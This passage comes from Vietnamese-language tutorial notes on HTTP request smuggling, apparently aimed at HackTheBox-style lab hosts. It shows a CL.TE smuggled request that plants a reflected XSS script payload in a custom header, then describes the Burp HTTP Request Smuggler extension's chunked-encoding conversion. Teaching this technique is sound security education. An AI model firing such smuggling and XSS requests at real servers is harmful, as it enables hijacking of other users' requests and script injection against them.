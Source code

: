 - **Ví dụ Tình huống:** Giả sử một ứng dụng web có lỗ hổng XSS phản chiếu qua một header HTTP tùy chỉnh, chẳng hạn như `Vuln`. Kẻ tấn công có thể sử dụng một kỹ thuật request smuggling để chèn một payload độc hại vào header này sao cho khi yêu cầu của nạn nhân đến server, nó sẽ chứa mã độc, dẫn đến việc khai thác XSS.

  **Khai thác lỗ hổng XSS bằng CL.TE:**
  ```
  POST / HTTP/1.1
  Host: vuln.htb
  Content-Length: 63
  Transfer-Encoding: chunked
  0
  
  GET / HTTP/1.1
  Vuln: "><script>alert(1)</script>
  Dummy:
  ```

Khi nạn nhân thực hiện yêu cầu của họ, payload trong header `Vuln` sẽ được phản chiếu trong phản hồi của server, dẫn đến việc thực thi mã XSS.

---
# 14. Các Công Cụ và Biện Pháp Phòng Ngừa HTTP Request Smuggling

#### Công Cụ Hỗ Trợ Khám Phá và Khai Thác Lỗ Hổng HTTP Request Smuggling

Một công cụ hữu ích để xác định và khai thác các lỗ hổng **HTTP request smuggling** là **Burp Extension: HTTP Request Smuggler**. Bạn có thể cài đặt công cụ này từ **Burp Extensions Store** trong tab Extensions bằng cách vào **BApp Store** và tìm kiếm cài đặt mở rộng này.

**Các tính năng của công cụ HTTP Request Smuggler:**

1. **Chuyển đổi yêu cầu sang mã hóa chunked:** Công cụ này có thể giúp chúng ta chuyển đổi các yêu cầu POST thông thường sang định dạng chunked encoding. Định dạng này yêu cầu chúng ta phải chuyển đổi độ dài của mỗi chunk từ hệ thập phân sang hệ thập lục phân, và công cụ sẽ thực hiện việc này tự động.

    - Ví dụ: Một yêu cầu POST như sau:
      ```
      POST / HTTP/1.1
      Host: clte.htb
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 17
      param1=HelloWorld
      ```

      Sau khi sử dụng chức năng **Convert to chunked** từ menu của Burp, yêu cầu sẽ được chuyển thành:
      ```
      POST / HTTP/1.1
      Host: clte.htb
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 28
      Transfer-Encoding: chunked
      11
      param1=HelloWorld
      0
      ```

